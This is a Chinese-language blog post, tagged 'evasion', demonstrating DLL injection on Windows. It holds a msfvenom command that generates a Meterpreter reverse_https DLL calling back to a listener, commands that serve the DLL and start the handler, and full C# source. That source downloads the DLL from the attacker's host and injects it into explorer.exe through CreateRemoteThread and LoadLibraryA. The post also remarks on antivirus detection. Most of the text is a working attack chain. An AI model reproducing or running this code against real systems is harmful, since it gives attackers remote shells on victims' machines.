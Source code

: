 ```yaml
---
title: dll注入的演示
categories:
- evasion
tags:
- evasion
---
```


## 前景提要
[whale的DLLHijack本地提权教程](https://www.acfun.cn/v/ac12864807)

[进程注入与迁移](https://www.bilibili.com/video/BV1UA411K7C8)

## 本期内容
dll注入的演示

1.exe
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/1.PNG)

2.exe

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/2.PNG)

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f dll -o whale.dll

python -m SimpleHTTPServer 80

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

## 小实验
“C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe” /unsafe /platform:x64 2.cs

缺点：dll落盘，会被杀软查杀

```
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject
{
	class Program
	{
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
		processId);
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
		dwSize, uint flAllocationType, uint flProtect);
		[DllImport("kernel32.dll")]
		static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
		byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
		lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
		dwCreationFlags, IntPtr lpThreadId);
		[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
		SetLastError = true)]
		static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
		[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
		public static extern IntPtr GetModuleHandle(string lpModuleName);
		static void Main(string[] args)
		{
			String dir =
			Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
			String dllName = dir + "\\\\whale.dll";
			WebClient wc = new WebClient();
			wc.DownloadFile("http://192.168.123.138/whale.dll", dllName);
			Process[] expProc = Process.GetProcessesByName("explorer");
			int pid = expProc[0].Id;
			IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
			IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
			IntPtr outSize;
			Boolean res = WriteProcessMemory(hProcess, addr,
			Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
			IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
			"LoadLibraryA");
			IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
			addr, 0, IntPtr.Zero);
		}
	}
}

```

## 参考资料
https://github.com/tyranid/DotNetToJScript

